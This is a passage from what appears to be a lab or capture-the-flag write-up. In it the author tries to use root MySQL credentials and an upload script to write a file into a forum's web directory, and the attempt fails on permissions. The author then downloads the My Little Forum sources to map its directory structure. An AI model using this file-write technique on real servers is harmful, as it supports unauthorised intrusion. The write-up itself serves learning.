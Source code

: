 It looks like we found the `forum`'s subdirectory.
Let's try to write a file inside of it:
```bash
./upload.sh $(tr '/' ' ' < root.mysql.credentials) test.txt /var/www/forum/test.txt
```
```
"#1 - Can't create/write to file '/var/www/forum/test.txt' (Errcode: 13)"
```

We still lack the write permission.

Because we know that the `forum` is powered by the `My Little Forum` CMS, we can get a copy of the sources to get further information on the application's directory structure.

```bash
pushd /tmp

curl -L -O 'https://github.com/ilosuna/mylittleforum/archive/refs/tags/20220529.1.tar.gz' | tar xz

pushd mylittleforum-20220529.1

ls -l

cat README.md

popd

popd
```
```
drwxr-xr-x  2 clemax clemax    60 May 29 21:00 backup
-rw-r--r--  1 clemax clemax 43559 May 29 21:00 CHANGELOG
drwxr-xr-x  2 clemax clemax   160 May 29 21:00 config
drwxr-xr-x  5 clemax clemax   100 May 29 21:00 images
drwxr-xr-x  2 clemax clemax   520 May 29 21:00 includes
-rw-r--r--  1 clemax clemax  9097 May 29 21:00 index.php
drwxr-xr-x  2 clemax clemax    80 May 29 21:00 install
drwxr-xr-x  2 clemax clemax   120 May 29 21:00 js
drwxr-xr-x  2 clemax clemax   320 May 29 21:00 lang
-rw-r--r--  1 clemax clemax 33093 May 29 21:00 LICENSE
drwxr-xr-x 10 clemax clemax   200 May 29 21:00 modules
-rw-r--r--  1 clemax clemax  1366 May 29 21:00 README.md
drwxr-xr-x  2 clemax clemax    60 May 29 21:00 templates_c
drwxr-xr-x  3 clemax clemax    60 May 29 21:00 themes
drwxr-xr-x  2 clemax clemax    80 May 29 21:00 update
```

---
my little forum
===============

<a href="https://mylittleforum.net/">my little forum</a> is a simple PHP and MySQL based internet forum that displays the messages in classical threaded view (tree structure). It is Open Source licensed under the GNU General Public License. The main claim of this web forum is simplicity. Furthermore it should be easy to install and run on a standard server configuration with PHP and MySQL.

